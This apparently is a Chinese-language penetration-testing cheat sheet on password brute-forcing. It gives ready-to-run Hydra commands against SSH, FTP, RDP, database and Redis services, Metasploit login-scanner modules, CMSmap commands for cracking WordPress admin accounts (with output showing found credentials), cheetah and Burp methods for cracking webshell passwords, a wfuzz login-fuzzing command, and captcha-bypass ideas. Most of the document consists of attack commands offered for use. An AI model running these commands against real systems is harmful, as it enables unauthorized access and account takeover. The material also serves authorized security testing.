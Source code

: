 ### 1、文件和目录穷举

- **Pker多线程后台极速扫描工具V2.01修正版**
- **御剑**

- **dirbuster**

### 2、常见的端口服务

```
http 80
https 443
ftp 21
ssh 22
mysql 3306
mssql 1433
rsync 873
oracle 1521
mongo 28017
redis 6379
tomcat 8080
smtp 25
POP3 110
dns 53
telent 23
vnc 5900
pcanywhere 5632
Apache/Tomcat/Nginx/Axis2/resin/jboss 80|8080
WebLogic 7001
Jenkins 8080 8089
SNMP 161
Zabbix 8069
elasticsearch 9200 9300
rdp 3389
```

### 3、[穷举爆破神器hydra](https://www.thc.org/)

下载地址：https://www.thc.org/releases/hydra-8.4.tar.gz

常见参数：

```bash
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
```

支持的服务和协议：

```bash
adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
```

常见协议爆破：

ssh

```bash
hydra -L /root/user -P /root/passwd ssh://192.168.1.0 -f -o /root/crack.txt -V
```

ftp

```bash
hydra -L /root/user -P /root/passwd ftp://192.168.1.0 -f -o /root/crack.txt -V
```

rdp

```bash
hydra -L /root/user -P /root/passwd rdp://192.168.1.0 -f -o /root/crack.txt -V
```

mssql

```bash
hydra -L /root/user -P /root/passwd mssql://192.168.0.129 -f -o /root/crack.txt -v
```

mysql

```bash
hydra -L /root/user -P /root/passwd mysql://192.168.0.129 -f -o /root/crack.txt –v -s 3306
```

oracle

```bash
hydra -P /root/passwd oracle://192.168.0.129 -f -o /root/crack.txt –v
```

redis

```bash
hydra -P /root/passlist.txt -e nsr -t 16 192.168.0.101 redis
```

postgresql 弱口令检测

```bash
hydra -P /root/passlist.txt -e nsr -t 16 192.168.0.101 postgresql
```

指定多个ip进行穷举

```bash
hydra -L /root/user -P /root/passlist -M /root/ip.txt  -V -o /root/crack mysql -t 16
hydra -L /root/user -P /root/passlist ssh://192.168.0.112 -vV -f -o /root/crack.txt
hydra -L /root/user -P /root/passlist ftp://192.168.0.106 -vV -f -o /root/crack.txt
hydra -l sa -P /root/passlist mssql://192.168.0.103 –vV
```

**可视化工具 xhydra**

### 3、kali metasploit穷举模块使用

模块示例

```bash
auxiliary/scanner/ftp/ftp_login
auxiliary/scanner/ssh/ssh_login
auxiliary/scanner/telnet/telnet_login
auxiliary/scanner/smb/smb_login
auxiliary/scanner/mssql/mssql_login
auxiliary/scanner/mysql/mysql_login
auxiliary/scanner/oracle/oracle_login
auxiliary/scanner/postgres/postgres_login
auxiliary/scanner/vnc/vnc_login
auxiliary/scanner/pcanywhere/pcanywhere_login
auxiliary/scanner/snmp/snmp_login
```

用法

```bash
msfconsole

msf6 > use auxiliary/scanner/mysql/mysql_login
msf6 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /root/passlist.txt
PASS_FILE => /root/passlist.txt
msf6 auxiliary(scanner/mysql/mysql_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_login) > run

set 设置
show options 查询设置
back 返回
info 查询模块的信息
exploit/run 运行模块
```

### 4、邮箱穷举

MailCracker

![img](../acess/wps1.png) 

**通用邮箱穷举**

```bash
baopo.py 163.txt email.txt passwd.txt
```

### 5、网站穷举

burpsuite 通用破解方法

- 网站会员批量登录穷举
- 指定后台密码穷举

多线程后台穷举程序

- phpmyadmincrack 单线程
- phpMyAdmin暴力破解v1.3（单线程）
- phpmyadmin 多线程密码枚举工具

**常见cms穷举**

[wordpress穷举](https://github.com/dionach/CMSmap)

git clone https://github.com/dionach/CMSmap

```
 cmsmap.py http://www.wordpress.com
 cmsmap.py https://example.com -f W -F --noedb -d
 cmsmap.py https://example.com -i targets.txt -o output.txt
 cmsmap.py https://example.com -u admin -p passwords.txt
 cmsmap.py -k hashes.txt -w passwords.txt
 cmsmap.py http://www.wordpress.com -u admin -p /root/password.txt –v
 	Valid ADMIN Credentials! Username: admin Password: moon123456
```

登录

```
http://www.wordpress.com/wp-login.php
```

**批量扫描的方法**

```bash
cmsmap.py -i /root/wp.txt -u admin -p /root/password.txt -v -o w.txt 
```

添加hosts

```bash
echo '192.168.0.105 www.wordpress.com'  >>/etc/hosts
```

**一句话密码穷举**

cheetah

```
cheetah.py -u http://orz/orz.php
cheetah.py -u http://orz/orz.jsp -r post -n 1000 -v
cheetah.py -u http://orz/orz.asp -r get -c -p data/pwd.list
cheetah.py -u http://orz/orz -w aspx -s iis -n 1000
cheetah.py -b url.list -c -p pwd1.list pwd2.list -v
cheetah.py -u http://www.yijuhua.com/a.php -n 1000 -v -p data/pwd.list
```

**webshell密码破解**

​           burpsuite2.0 通过破解办法

```
http://www.yijuhua.com/b.asp
http://www.yijuhua.com/b.php
http://www.yijuhua.com/b.aspx
```

**多线程百万密码测试指定后台破解**

- 密码字典：csdnpass.txt

- url：http://www.blogs.com/admin/index.php?action=login

wfuzz用法:

```bash
wfuzz -c -z file,/pentest/csdnpass.txt --hc 200 -u http://www.blogs.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"
```

**Discuz! 会员帐号破解**

**有验证码后台的破解方法**

- 验证码cookie是否重复利用	
-  验证码是否可以重复利用	
-  验证码是否可以识别